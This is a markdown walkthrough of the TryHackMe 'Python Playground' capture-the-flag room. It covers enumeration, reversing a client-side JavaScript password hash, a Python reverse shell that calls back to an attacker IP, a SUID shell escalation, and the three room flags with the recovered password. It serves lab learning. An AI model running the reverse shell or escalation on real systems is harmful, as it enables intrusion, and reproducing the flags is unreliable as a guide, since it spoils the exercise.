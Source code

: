 
# 🐍 Python Playground - TryHackMe

> Be creative!  
> 🔗 [Python Playground Room](https://tryhackme.com/room/pythonplayground)

---

## 🧠 Topics

- ✅ Network Enumeration (Nmap)
- ✅ Web Enumeration (Gobuster)
- ✅ JavaScript Login Bypass Logic 
- ✅ Python Scripting (Decoder)  
- ✅ Misconfigured Binaries

---

## 🗂️ Appendix Archive

> **Password:** `1 kn0w 1 5h0uldn'7!`

---

## 🎯 Task 1: Hack it!

> *Jump in and grab those flags! All in the usual places: `/home/someuser`, `/root`*

<details>
<summary>🔍 Nmap Results</summary>

```bash
sudo nmap -A -sS -sC -sV -O 10.10.192.182
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 20:20 IST
Nmap scan report for 10.10.192.182
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   239.31 ms 10.21.0.1
2   239.53 ms 10.10.192.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds
```

🔗 [http://10.10.192.182](http://10.10.192.182)  
🔗 [http://10.10.192.182/login.html](http://10.10.192.182/login.html)  
🔗 [http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

</details>

---

<details>
<summary>📁 Gobuster Enumeration</summary>

```bash
gobuster dir -u http://10.10.251.33 -w /usr/share/dirb/wordlists/common.txt -x html
```

**Results:**

- `/admin.html` ✅  
- `/index.html`  
- `/login.html`  
- `/signup.html`  

🔗 [http://10.10.192.182/admin.html](http://10.10.192.182/admin.html)  
🔗 [View Source](view-source:http://10.10.192.182/admin.html)

</details>

---

<details>
<summary>🔐 JavaScript Login Bypass Logic</summary>

```js
const hash = int_array_to_text(
  string_to_int_array(
    int_array_to_text(string_to_int_array(password))
  )
);

if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
  window.location = "super-secret-admin-testing-panel.html";
```

🔗 [http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)
</details>

---

<details>
<summary>🧮 Python Decoder Logic</summary>

```python
def text_to_unicode(string):
    return [str(ord(c)-97) for c in string]

def unicode_to_text(string):
    out = ''
    for i in range(0, len(string), 2):
        out += chr(int(string[i])*26 + int(string[i+1]))
    return out

hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
print(unicode_to_text(text_to_unicode(unicode_to_text(text_to_unicode(hash)))))
```

✅ Password: `spaghetti1245`

</details>

---

<details>
<summary>💻 Reverse Shell</summary>

```python
import socket, os, subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.106.222",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Listener
nc -lnvp 9001
```

</details>

---

<details>
<summary>📜 Flag Dump</summary>

### 🏁 Flag 1 (root):
```bash
cat /root/flag1.txt
```
`THM{7e0b5cf043975e3c104a458a8d4f6f2f}`

---

### 🏁 Flag 2 (connor):
```bash
cat /home/connor/flag2.txt
```
`THM{69a36d6f9da10d23ca0dbfdf6e691ec5}`

---

### 🏁 Flag 3 (via SUID shell):
```bash
/var/log/sh -p
cd /root
cat flag3.txt
```
`THM{be3adc69c25ad14eb79da4eb57925ad1}`

</details>

## 🧠 Tips

- Use `<details>` and `<summary>` in `.md` to make content collapsible  
- Render this using **Markdown Preview Enhanced**, **Obsidian**, or static site generators for best effects  
- For interactivity, embed `copy.js`, `highlight.js`, or use GitHub Pages with custom JS
